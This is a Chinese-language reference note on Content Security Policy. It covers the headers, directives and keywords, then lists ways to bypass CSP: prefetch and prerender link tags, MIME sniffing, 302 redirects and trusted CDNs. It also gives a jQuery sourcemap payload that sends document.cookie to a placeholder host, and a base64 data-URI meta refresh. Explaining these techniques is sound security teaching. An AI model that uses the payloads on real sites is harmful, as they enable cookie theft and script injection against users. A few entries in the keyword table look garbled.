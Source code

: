 CSP
================================

CSP是什么？
--------------------------------
Content Security Policy，简称 CSP。顾名思义，这个规范与内容安全有关，主要是用来定义页面可以加载哪些资源，减少 XSS 的发生。


配置
--------------------------------

CSP策略可以通过 HTTP 头信息或者 meta 元素定义。

CSP 有三类：

- Content-Security-Policy  (Google Chrome)
- X-Content-Security-Policy (Firefox)
- X-WebKit-CSP (WebKit-based browsers, e.g. Safari)

::

    HTTP header :
    "Content-Security-Policy:" 策略
    "Content-Security-Policy-Report-Only:" 策略


HTTP Content-Security-Policy 头可以指定一个或多个资源是安全的，而Content-Security-Policy-Report-Only则是允许服务器检查（非强制）一个策略。多个头的策略定义由优先采用最先定义的。

HTML Meta :
::

    <meta http-equiv="content-security-policy" content="策略">
    <meta http-equiv="content-security-policy-report-only" content="策略">


指令说明
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

============    ============
指令            说明     
============    ============
default-src     定义资源默认加载策略
connect-src     定义 Ajax、WebSocket 等加载策略
font-src        定义 Font 加载策略
frame-src       定义 Frame 加载策略
img-src         定义图片加载策略
media-src       定义 <audio>、<video> 等引用资源加载策略
object-src      定义 <applet>、<embed>、<object> 等引用资源加载策略
script-src      定义 JS 加载策略
style-src       定义 CSS 加载策略
sandbox         值为 allow-forms，对资源启用 sandbox
report-uri      值为 /report-uri，提交日志
============    ============

关键字
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

+--------------------+----------------------------+------------------------------------------------------------------+
| 属性值             | 示例                       | 说明                                                             |
+====================+============================+==================================================================+
| -                  | img-src -                  | 允许从任意url加载，除了data:blob:filesystem:schemes              |
+--------------------+----------------------------+------------------------------------------------------------------+
| 'none'             | object-src 'none'          | 禁止从任何url加载资源                                            |
+--------------------+----------------------------+------------------------------------------------------------------+
| 'self'             | img-src 'self'             | 只可以加载同源资源                                               |
+--------------------+----------------------------+------------------------------------------------------------------+
| data:              | img-src 'self' data:       | 可以通过data协议加载资源                                         |
+--------------------+----------------------------+------------------------------------------------------------------+
| domain.example.com | ing-src domain.example.com | 只可以从特定的域加载资源                                         |
+--------------------+----------------------------+------------------------------------------------------------------+
| \*.example.com     | img-src \*.example.com     | 可以从任意example.com的子域处加载资源                            |
+--------------------+----------------------------+------------------------------------------------------------------+
| https://cdn.com    | img-src https://cdn.com    | 只能从给定的域用https加载资源                                    |
+--------------------+----------------------------+------------------------------------------------------------------+
| https:             | img-src https:             | 只能从任意域用https加载资源                                      |
+--------------------+----------------------------+------------------------------------------------------------------+
| 'unsafe-inline'    | script-src 'unsafe-inline' | 允许内部资源执行代码例如style attribute,onclick或者是sicript标签 |
+--------------------+----------------------------+------------------------------------------------------------------+
| 'unsafe-eval'      | script-src 'unsafe-eval'   | 允许一些不安全的代码执行方式，例如js的eval()                     |
+--------------------+----------------------------+------------------------------------------------------------------+

- ``none``：你可能期望不匹配任何内容
- ``self``：与当前来源相同，但不包含子域
- ``unsafe-inline``：允许内联Javascript和CSS
- ``unsafe-eval``：允许文本到JS的机制例如eval

配置范例
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

允许执行内联 JS 代码，但不允许加载外部资源
::

    Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline';


Bypass
--------------------------------

预加载
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
浏览器为了增强用户体验，让浏览器更有效率，就有一个预加载的功能，大体是利用浏览器空闲时间去加载指定的内容，然后缓存起来。这个技术又细分为DNS-prefetch、subresource、prefetch、preconnect、prerender。

HTML5页面预加载是用link标签的rel属性来指定的。如果csp头有unsafe-inline，则用预加载的方式可以向外界发出请求，例如

::

    <!-- 预加载某个页面 -->
    <link rel='prefetch' href='http://xxxx'><!-- firefox -->
    <link rel='prerender' href='http://xxxx'><!-- chrome -->
    <!-- 预加载某个图片 -->
    <link rel='prefetch' href='http://xxxx/x.jpg'>
    <!-- DNS 预解析 -->
    <link rel="dns-prefetch" href="http://xxxx">
    <!-- 特定文件类型预加载 -->
    <link rel='preload' href='//xxxxx/xx.js'><!-- chrome -->

另外，不是所有的页面都能够被预加载，当资源类型如下时，讲阻止预加载操作：

- URL中包含下载资源
- 页面中包含音频、视频
- POST、PUT和DELET操作的ajax请求
- HTTP认证
- HTTPS页面
- 含恶意软件的页面
- 弹窗页面
- 占用资源很多的页面
- 打开了chrome developer tools开发工具

MIME Sniff
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

举例来说，csp禁止跨站读取脚本，但是可以跨站读img，那么传一个含有脚本的img，再``<script href='http://xxx.com/xx.jpg'>``，这里csp认为是一个img，绕过了检查，如果网站没有回正确的mime type，浏览器会进行猜测，就可能加载该img作为脚本


302跳转
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

对于302跳转绕过CSP而言，实际上有以下几点限制：

- 跳板必须在允许的域内。
- 要加载的文件的host部分必须跟允许的域的host部分一致

其他
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- CND Bypass,如果网站信任了某个CDN, 那么可利用相应的CDN bypass
- Angular versions <1.5.9 >=1.5.0，存在漏洞 `Git pr <https://github.com/angular/angular.js/pull/15346>`_
- jQuery sourcemap 
    ::

        document.write(`<script>
        //@        sourceMappingURL=http://xxxx/`+document.cookie+`<\/script>`);``
- a标签的ping属性
- For FireFox ``<META HTTP-EQUIV="refresh" CONTENT="0; url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnSWhhdmVZb3VOb3cnKTs8L3NjcmlwdD4=">``
- ``<link rel="import" />``
- ``<meta http-equiv="refresh" content="0; url=http://...." />

